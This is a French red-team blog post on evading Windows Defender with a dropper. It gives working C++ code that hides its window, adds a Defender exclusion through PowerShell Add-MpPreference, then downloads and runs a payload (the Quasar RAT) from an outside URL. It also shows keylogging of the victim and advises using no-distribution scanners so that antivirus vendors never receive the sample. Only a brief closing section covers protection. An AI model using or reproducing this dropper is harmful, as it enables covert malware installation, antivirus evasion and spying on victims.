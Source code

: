 ```yaml
---
published: true
layout: post
title: "Evasion de Windows Defender grâce à un injecteur (dropper)"
description: "Cet article décrit comment rendre indétectable n'importe quel malware auprès de Windows Defender."
lang: fr_FR
category: redteam,malware,raccourci,dropper,injecteur,evasion
---
```

![Evasion de Windows Defender grâce à un injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/illustration.PNG)

# Evasion de Windows Defender grâce à un injecteur (dropper)
Un injecteur (ou *dropper*, en anglais), est un programme créé pour installer un logiciel malveillant sur un système cible.
Il s'agit d'une forme minimaliste de cheval de Troie. Le code du logiciel malveillant est soit inclus à même l'injecteur, soit téléchargé sur la machine à partir d'Internet une fois activé.

## Principe d'exploitation
PowerShell dispose d'une méthode [Add-MpPreference](https://docs.microsoft.com/en-us/powershell/module/defender/add-mppreference?view=win10-ps) qui permet d'intéragir directement avec Windows Defender.
Cette commande permet d'ajouter des exclusions sur les dossiers, fichiers, extensions.
C'est utile pour administrer un poste client par exemple mais peut être détournée de son utilité native.
L'idée est donc tout simplement d'ajouter une exception sur le malware. Le prérequis est d'avoir les droits d'exécuter un programme en tant qu'administrateur de la part de la victime.
Il sera alors possible d'exécuter et d'évader n'importe quel type de malware, quelque soit sont taux de détection original.

Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source.

Le taux de détection original est le suivant :

[![Taux de détection du malware Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)

Attention, lors de la création d'un malware ou injecteur (*dropper*), il **ne doit jamais** être scanné sur les plateformes telles que [VirusTotal](https://www.virustotal.com/gui/) car les échantillons sont distribués aux **éditeurs antivirus**.
Les plateformes dites sans distribution (*no distribute*) telles que [AntiScanMe](https://antiscan.me/) sont à privilégier. Il serait bête de griller votre cartouche avant même de commencer votre audit Red Team :)

## Création du dropper en C++
L'étape suivante est la création de l'injecteur. J'ai choisi le language C++ mais il peut être fait au format .bat, .ps1 ou tout autre langage tant que PowerShell est exécuté.
Le code ne tient qu'en quatre étapes :
1. Masquer la fenêtre
2. Ajouter l'exclusion via PowerShell avec la commande `Add-MpPreference` et le paramètre `-ExclusionPath`
3. Télécharger le malware à l'endroit où a été ajoutée l'exclusion
4. Exécuter le malware téléchargé

Voici le code source de l'application :
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
    ::ShowWindow(::GetConsoleWindow(), SW_HIDE);
    system("powershell.exe -Command Add-MpPreference -ExclusionPath %appdata%\\malware.exe -Force");
    system("powershell.exe -Command Invoke-WebRequest -Uri https://github.com/CLeBeRFR/a/raw/main/malware.exe -OutFile %appdata%\\malware.exe");
    system("powershell.exe -Command Invoke-Item %appdata%\\malware.exe");
}
```
Le fichier manifest doit aussi être modifié via les paramètres du projet afin demander l'exécution de l'application en tant qu'administrateur.

Le taux de détection de l'injecteur est le suivant :


La non détection de l'injecteur par Windows Defender est le seul élément qui est vraiment intéressant car l'injecteur sert uniquement à évader ce dernier.

Une fois l'injecteur envoyé à la victime, l'exclusion est correctement ajoutée et le malware pourtant initialement détecté par Windows Defender est exécuté. La victime apparaît alors du côté de l'attaquant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)

L'attaquant dispose alors de toutes les fonctionnalités du malware installé. Dans le cas présent, il est possible d'avoir un enregistreur de frappes (*keylogger*) :

[![Enregistreur de frappes (keylogger)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)

Il est également possible d'envoyer des messages à la victime :

[![Message box Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)

D'autres fonctionnalités sont disponibles et dépendent du logiciel malveillant installé, un ransomware aurait également pu être installé...

Si la vicitme se rend dans les paramètres, elle pourra voir l'exclusion ajoutée par l'injecteur :

[![Exclusion Windows Defender ajoutée par l'injecteur](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)

## Comment s'en protéger
Etant donné que cette technique nécessite les droits d'administration de la part de la victime, il convient de limiter au maximum la liste des comptes ayant le droit d'exécuter des programmes en tant qu'administrateur.
Fort heureusement, les postes clients des collaborateurs de grandes entreprises n'ont généralement pas une telle permission.

Par ailleurs, je pense que cette méthode est transposable aux différents anti virus en éditant les valeurs du registre ou la configuration des fichiers contenants les exclusions. La non utilisation de Windows Defender n'est donc pas un moyen de rémédiation.